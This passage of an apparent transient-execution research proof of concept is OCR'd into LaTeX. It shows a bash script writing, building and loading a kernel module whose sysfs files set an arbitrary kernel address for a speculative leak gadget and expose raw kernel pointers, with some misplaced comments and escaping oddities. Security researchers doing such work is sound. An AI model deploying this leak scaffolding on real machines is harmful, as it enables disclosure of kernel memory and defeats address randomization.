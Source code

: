 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=bash, alsolanguage=C]
// Sets the virtual address inside the kernel to leak from
// The gadget will read 1 byte from this address transiently
static ssize_t leak_va_store(struct kobject *kobj, struct kobj_attribute *attr,
                             const char *buf, size_t count)
{
    unsigned long tmp;
    kstrtoul(buf, 0, &tmp);
    leak_source_va = (void *)tmp;
    return count;
}

// Returns the virtual address of pbinc_dc_gadget()
// Userland uses this to match low bits for return predictor aliasing
static ssize_t gaddr_show(struct kobject *kobj, struct kobj_attribute *attr, char *buf)
{
    return sprintf(buf, "%px\\n", pbinc_dc_gadget);
}

// Each entry connects a sysfs file to a store/show function
static struct kobj_attribute attr_probe_pa = __ATTR(probe, 0200, NULL, probe_pa_store);
static struct kobj_attribute attr_leak_va  = __ATTR(leak,  0200, NULL, leak_va_store);
static struct kobj_attribute attr_gaddr    = __ATTR(gaddr, 0444, gaddr_show, NULL);

// Group of sysfs attributes under /sys/kernel/pbinc/
static struct attribute *attrs[] = {
    &attr_probe_pa.attr,
    &attr_leak_va.attr,
    &attr_gaddr.attr,
    NULL,
};

// Module cleanup: unmap shared memory and remove sysfs files
static const struct attribute_group attr_group = {
    .attrs = attrs,
};

static struct kobject *kobj;

static int __init pbinc_init(void)
{
    kobj = kobject_create_and_add("pbinc", kernel_kobj);
    return sysfs_create_group(kobj, &attr_group);
}

static void __exit pbinc_exit(void)
{
    if (probe_kva) iounmap(probe_kva);
    kobject_put(kobj);
}

module_init(pbinc_init);
module_exit(pbinc_exit);
MODULE_LICENSE("GPL");
EOF

cat > "${KMOD_DIR}/Makefile" <<'EOF'
obj-m += pbinc_gadget.o
all:   ; $(MAKE) -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean: ; $(MAKE) -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
EOF

info "Building & loading kernel module"
( cd "${KMOD_DIR}" && $MAKE -j )
sudo_or insmod "${KMOD_DIR}/pbinc_gadget.ko" || { sudo_or rmmod pbinc_gadget 2>/dev/null || true; sudo_or insmod "${KMOD_DIR}/pbinc_gadget.ko"; }
ls -l /sys/kernel/pbinc/{probe,gaddr}

################################# user sources


\end{lstlisting}
\end{document}
